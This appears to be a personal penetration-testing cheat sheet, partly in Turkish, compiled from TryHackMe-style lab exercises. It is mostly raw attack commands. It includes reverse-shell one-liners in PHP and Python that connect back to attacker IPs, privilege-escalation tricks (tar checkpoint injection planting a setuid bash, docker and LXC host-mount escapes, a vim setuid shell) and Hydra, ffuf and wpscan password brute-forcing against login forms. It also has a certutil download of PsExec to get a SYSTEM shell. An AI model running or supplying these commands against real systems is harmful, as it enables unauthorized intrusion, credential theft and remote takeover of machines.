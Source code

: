 shell stab python

usr/bin/script -qc /bin/bash /dev/null
without python

python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
stty rows 55 columns 116

getcap -r / 2>/dev/null -- capabilities


sudo nmap -sS -sV -n -vv -Pn -p- 


suid file 

find / -uid 0 -perm -4000 -type f 2>/dev/null

hydra brute force login form

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.20.32 http-post-form "/admin/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"

ffuf brute force 
ffuf -w valid_users.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.139.242/customers/login -fc 200


thm='php' $thm -r '$sock=fsockopen("10.11.51.187",1234);passthru("sh <&3 >&3 2>&3");'

'python3' -c 'import os,pty,socket;s=socket.socket();s.connect(("10.11.51.187",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

/usr/bin/pyth??? -c 'import os,pty,socket;s=socket.socket();s.connect(("10.9.163.154",4445));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'


---- docker root
docker run -v /etc/:/mnt -it alpine

-------
smbye kullanıcıyla girme

smbclient //ip/kullanıcı -U kullanıcı

----- tar ile sudo 
-dosya oluştur içine cp /bin/bash /tmp/dosya adı && chmod +s /tmp/dosya adı

ardından
touch "/var/www/html/--checkpoint-action=exec=sh dosya_adı.sh"
touch "/var/www/html/--checkpoint=1"

ardından /tmp/dosya adı -p ile çalıştır

-----

LXC PrivEsc

lxc image import ./alpine.tar.gz --alias (isim)

lxc init valerie gaming -c security.privileged=true
lxc config device add gaming mydevice disk source=/root path=/mnt/root recursive=true
lxc start gaming
lxc exec gaming /bin/sh

----- anonim olarak girilen ftpye put ile dosya yüklenebilir

----- rate limit düşürerek gözden kaçan portları bulma
sudo nmap -p- --min-rate 1000 10.10.122.24

---- wpscan ile wp-login brute force
 wpscan --url http://10.10.83.65 -U c0ldd,hugo,philip -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 100

--------- wpscan aracı ile wordpress enum
wpscan --url http://10.10.220.178/wordpress/ -e u

--ffuf ile subdomain enum
ffuf -u http://mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.mydomain.com' -fs 0


----- base64
lfile ata
base64 decode yap
------
--vim cap
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

-- searchsploit db update -u

-- powershellde dosya bulunamıyor başlamıyorsa absolute path vermek gerekir.**

---curl ile [] kullanılacaksa -g kullanmalı. (get_cmd kullanıken eklenebilir. globing)

---gpg
.asc uzantısı anahtardır. 
gpg2john dosya.asc > hash şeklinde dönüşüm sağlanır parola kırılır.

gpg --import dosya.asc import edilir. 
gpg --decrypt kilitli_dosya.pgp parolayla açılır.

----HYDRA--
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.183.130 http-post-form "/Account/login.aspx:__VIEWSTATE=AUqYC6%2B2PCo3uYXvn8%2Feh%2BL9N5CXfHPdTu9jDoVOHrO2WCALA0%2BH0CVCIN3Lp%2ByGLlWrGb49JbK9HmXjYPUYZmXx8UKBIcKuo7vW2cpbNKuiCHC9YDcIo%2FeHbuIaXXFy6PCXzA9Q0E7nr4j7WnW0xAqruJ5DRnDMrDIrRQJuRlwFKqA17%2FwUqsp8Ru0N6vQGKdDZwEhetIKNNwcG0zg9LH1vG4LDAiWEBaZf%2BFf0dDaUSKoWgTgLhRlcc%2BlAb5FW8vJU9Tw1%2F7gHlGP8IPuMPrgwX8pnxKFQoaxm2uVp9n%2BItqgvFI63KF4z%2BSGuj5cfQh3PMfrwTnhX%2BxrsOiKPsDMimYO2W2EbGg%2FuUOo0p0hlRzWc&__EVENTVALIDATION=WNhphsDiUIO1CarLUkEeS2TtKGqTbAQ4vCZ2dqpIbem60ahrcisTBB2tLJOVY4kOIM6MpCIxpdsIIUT3VT0HcQVWk%2FGNqdcvALxT5hp8uqi9xGfKU953oOW%2F0XBL9XnE0vzBFckA5dYkNmss2VSvpruxNPQ%2BOOcklwdG%2FAwbfYGIlc1d&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

--ping ile istek kontrolü 
sudo tcpdump -i tun0 icmp -A --print

---ps indirme certutil -urlcache -f http://10.11.51.187/PsExec64.exe p.exe

--ps exe çalıştırma ve parametreleri 
.\p.exe -accepteula(popup ekranı onaylayarak çıkmasını engeller) -i -d -s(sistem shelli verir) C:\Users\bruce\Downloads\shell.exe

--buffer owerflow bad character tespiti araştır

--wget ip/{dosya isimleri}

--kali$ nc -lnvp 80 < index.php --netcate dosya yönlendirilirse wget doğrudan onu alır
client$ wget 1.1.1.1 -O shell.php

---BASH--
cat <<EOF > foo.sh
#!/bin/bash

sdlşfksşf
EOF

---ffuf subdomain enum--
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H 'Host: FUZZ.acmeitsupport.thm' -u http://10.10.25.169 -fs 2395

--ffuf username enum--
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.51.251/customers/signup -mr "username already exists"

--ffuf brute force 
           
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

--satır sayısı
wc -c 

 -- ftpden uygun verileri indirme
 wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
